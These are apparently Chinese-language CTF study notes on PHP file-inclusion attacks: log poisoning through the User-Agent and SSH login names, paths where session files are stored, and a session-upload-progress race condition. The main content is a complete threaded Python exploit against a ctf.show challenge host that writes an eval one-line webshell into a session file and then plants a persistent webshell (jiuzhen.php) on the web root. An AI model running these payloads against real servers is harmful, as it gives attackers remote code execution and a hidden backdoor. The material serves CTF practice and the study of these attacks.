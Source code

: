 ## **日志包含**
已知url上有文件包含
log日志记录ua，参考web日志路径
修改ua为phpshell,包含日志log文件
修改UA为：
1=system("ls");
1=system("tac fl0g.php");


^
ssh登录日志文件
把登录名改php的shell
包含ssh登录日志

^
## **session临时文件包含**
php的session保存在一个目录下
session内容可控时
文件包含session文件

php的session常见存储位置，里面为键值对 字符
```
/var/lib/php5/sess_PHPSESSID
/var/lib/php7/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSED
/var/lib/php/sessions/sess_PHPSESSID
```
PHPSESSID来源F12的cookie会存储
如
```
/tmp/sess_99se2w33sddcs
```
^
**文件名和内容的控制：**
cookie中自定义新的Session ID会新初始化Session。如，设置PHPSESSID=AAA，PHP将会在服务器上创建一个文件: /tmp/sess_AAA"， 文件里存放了键值，键值由ini.get("session.upload_progress.prefix")+session.upload_progress.name值组成。
所以同时通过POST传参PHP_SESSION_UPLOAD_PROGRESS即可写入内容：
```
'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
```

^
但因为默认配置session.upload_progress.cleanup=on（意思是当文件上传结束后，php将会立即清空对应session文件中的内容）。所以，我们文件上传后，session文件内容会被立即清空。这就要利用竞争，在session文件内容被清空前进行包含利用。

^
**写入session文件同时文件包含写小马，小马jiuzhen.php密码3：**
```
import requests
import io
import threading

url='http://9a77fcb3-6f3c-4bd6-a247-07bfe6766509.challenge.ctf.show:8080/'
sessionid='ctfshow'
data={
   "1":"file_put_contents('/var/www/html/jiuzhen.php','<?php eval($_POST[3]);?>');"
}
#这个是访问/tmp/sess_ctfshow时，post传递的内容，是在网站目录下写入一句话木马。这样一旦访问成功，就可以蚁剑连接了。
def write(session):#/tmp/sess_ctfshow中写入一句话木马。
   fileBytes = io.BytesIO(b'a'*1024*50)
   while True:
      response=session.post(url,
         data={
         'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
         },
         cookies={
         'PHPSESSID':sessionid
         },
         files={
         'file':('ctfshow.jpg',fileBytes)
         }
         )

def read(session):#访问/tmp/sess_ctfshow，post传递信息，在网站目录下写入木马。
   while True:
      response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,
         cookies={
         'PHPSESSID':sessionid
         }
         )
      resposne2=session.get(url+'jiuzhen.php');#访问木马文件，如果访问到了就代表竞争成功
      if resposne2.status_code==200:
         print('++++++done++++++')
      else:
         print(resposne2.status_code)

if __name__ == '__main__':

   evnet=threading.Event()
   #写入和访问分别设置5个线程。
   with requests.session() as session:
      # 当你使用 requests.Session() 创建了一个会话对象后，这个会话对象会自动处理cookie。
      # 如果你在会话中发送了一个请求，服务器返回了cookie，那么这些cookie会被会话对象自动保存，并且在后续使用同一个会话对象发送的请求中自动携带这些cookie。
      for i in range(5):
         threading.Thread(target=write,args=(session,)).start()
      for i in range(5):
         threading.Thread(target=read,args=(session,)).start()

   evnet.set()
```

^
对于system($_GET['cmd'])函数，也可以用session，用cmd=php /tmp/sess_aaaa




